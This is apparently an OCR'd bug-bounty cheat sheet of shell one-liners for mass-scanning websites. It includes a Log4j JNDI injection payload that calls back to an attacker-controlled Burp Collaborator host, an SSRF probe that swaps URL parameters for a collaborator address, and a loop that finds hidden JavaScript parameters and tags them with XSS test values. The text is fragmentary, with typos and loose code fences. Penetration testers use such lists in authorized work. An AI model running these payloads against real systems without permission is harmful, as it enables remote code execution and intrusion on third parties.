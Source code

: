 ```

	-> If the website is vulnerabile it will make a request to the svg.poc and rendering the domain name. SSRF to XSS

```

findomain -t DOMAIN -q | httpx -silent -threads 1000 | gau | grep "=" | qsreplace http://YOUR.burpcollaborator.net

```



SSRF to RCE:

https://twitter.com/e11i0t_4lders0n/status/1473640106741284866







Log4j - RCE: (Search for bypasses)

```

cat hosts.txt | sed 's/https\?:\/\///' | xargs -I {} echo '{}/${jndi:ldap://{}.attacker.burpcollaborator.net}' >> log4j.txt

httpx -l log4j.txt 

```

Look for callbacks in your server. It should be VICTIM.ATTACKER.burpcollab







Find hidden params in javascript files 

```

assetfinder target.com | gau | egrep -v '(.css|.svg)' | while read url; do vars=$(curl -s [$url](https://twitter.com/search?q=%24url&src=cashtag_click) | grep -Eo "var [a-zA-Z0-9]+" | sed -e 's,'var','"$url"?',g' -e 's/ //g' | grep -v '.js' | sed 's/.*/&=xss/g'); echo -e "\e[1;33m$url\n\e[1;32m$vars"

```



```
